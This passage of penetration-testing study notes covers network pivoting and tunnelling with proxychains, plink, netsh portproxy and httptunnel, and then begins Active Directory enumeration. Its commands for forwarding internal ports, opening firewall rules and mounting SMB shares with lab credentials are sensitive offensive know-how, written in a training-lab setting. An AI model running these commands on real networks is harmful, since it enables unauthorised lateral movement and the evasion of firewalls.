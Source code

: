 		This basically creates a socks4 proxy on port 8080. To have our kali tools use this proxy, we can use proxychains and edit its config file
		sudo nano /etc/proxychains.conf
		We add our socks4 proxy to the config file: socks4 127.0.0.1 8080
		Then, we can run our tools thru this proxy, we prepend our commands with proxychains, for example: proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
PLINK.exe:
	It is used to pivoting thru Windows operating systems (we need a System level shell). For example, we can exploit the SyncBreeze buffer overflow and gain System level access to the Windows machine. After enumerating the machine, we find a MySQL server running on the machine, but we cannot interact with it directly from our attacker kali machine because the firewall blocks port 3306
	PLINK.exe is a Windows-based command line SSH client
	To establish remote port forwarding: cmd.exe /c echo y | plink.exe -ssh-l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
NETSH:
	netsh can be used on a Windows system (for example our Windows client), where there is the IP Helper service running and the network interface has IPv6 support enabled. Fortunately both are enabled by default on Windows. We can then use netsh to forward the SMB port 445 of a Windows server in the internal network to the port 4455 of the Windows client, so that we can then access with it from our attacker kali machine
	netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
	To verify the new listening port: netstat -ant TCP | find "4455"
	To add a firewall rule and allow incoming traffic on port 4455, being 455 blocked by default by the firewall: netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
	To test the port forwarding: smbclient -L 10.11.0.22 --port=4455 --user=Administrator
	Finally we can mount the share of the internal Windows server:
	sudo mkdir /mnt/win10_share
	sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
HTTPTunneling through deep packet inspection:
	httptunnel is an tool useful in environments where some protocols are not allowed, for example environments where SSH is not allowed and where all SSH-based tunnels will not work. For example, we want to establish a RDP connection between our attacker kali machine and the Windows server in the internal network, via the debian client and with the firewall that only allows ports 80, 443 and 1234
	
	httptunnel works on a client-server based way (hts being the server and htc the client components) and needs to be installed in kali: sudo apt update && sudo apt install httptunnel
	From the debian client: ssh -L 0.0.0.0:8888:192.168.1.110:3389student@127.0.0.1
	Then we setup the httptunnel server on the debian client: hts --forward-port localhost:8888 1234
	Finally we setup the httptunnel client on our attacker kali machine: htc --forward-port 8080 10.11.0.128:1234
	At this point we can launch the RDP client against port 8080 of the kali machine and connect, thru the HTTP tunnel, bypassing firewall restrictions and using the ssh local port forwarding of the debian machine, to our final target that is the Windows server: rdesktop 127.0.0.1:8080

##### Active Directory Attacks
WADComs  - interactive cheat sheet for Windows/AD environments: https://wadcoms.github.io/
The following scenario assumes that we were able to compromise the Windows client and get local admin level access on it
Active Directory enumeration:
	The traditional approach:
		To enumerate all local accounts: net user
		Enumerate all users in the entire domain: net user /domain
		Show info on a particular user: net user jeff_admin /domain
		Enumerate all groups in the domain: net group /domain
		However, a big limitation of net.exe is that it cannot unravel nested gropus 
	A modern approach:
		We can leverage PowerShell to create a script (enumerateAD.ps1) that will enumerate all the users in the domain and their properties via a DirectorySearcher object, which uses LDAP (a network protocol understood by domain conrollers)
		To get the hostname and distinguished name of the domain controller: [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()